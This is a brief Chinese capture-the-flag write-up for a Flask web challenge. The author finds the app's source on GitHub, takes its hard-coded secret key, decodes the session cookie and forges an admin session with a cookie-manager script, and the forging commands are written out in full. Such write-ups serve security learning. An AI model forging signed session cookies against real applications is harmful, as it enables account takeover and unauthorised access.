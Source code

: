 翻页面源码，发现https://github.com/woadsl1234/hctf_flask.git 





https://blog.csdn.net/rfrder/article/details/109188719

尝试flask session注入 





在hctf——flask里发现secret_key ckj123

用flask加解密脚本

```
python flask_session_cookie_manager3.py decode -s 'ckj123' -c '.eJw9kMGKwkAQRH9l6bOHGPUieFgZDQrdQekkTF_E1ehkJuNCVKIR_31HFzzU6dFV1fWAzaEpzwbGl-Za9mBT7WH8gK8fGIMuxKRMFbFuyWY3jBd3SrCPXBuxOiJ2bVCHnDvkbEjdsU0TMpqNIWssJUsvam7F5z5VqxgtDoXnRneLGxaLvo6zuzAOsZAaPY6Qp4HNne50JLYOuXuDyjgKuVIsDSk90JzbcD8itazJ50YUjkK_CTx7sDs3h83l15WnzwvIszsVszbldYWx2FTtWs3uJsXapa8qfl2jmlqKs478S-L1avK2q_z2WH6cskG9wu9_ctr6AMBudw56cD2XzXs26Efw_AMKsG4Q.Y1IF_A.8xhpsbgIVrk1_W8K5H7hm5ajtUQ' 
```



```
python flask_session_cookie_manager3.py encode -s ckj123 -t "{'_fresh': True, '_id': b'afa93b5606513b24c519af6459059315d1587808caa8a68c4bfd1cfef846238e1ac211b5ce2e381fe2c910ac1dc64f9b57a08d7b2eba467a5cc2942e6ead3956', 'csrf_token': b'1125a094b3fc870a91edd91abde00c7e36e36ffa', 'image': b'SyP0', 'name': 'admin', 'user_id': '10'}"
```

登陆后 出现flag
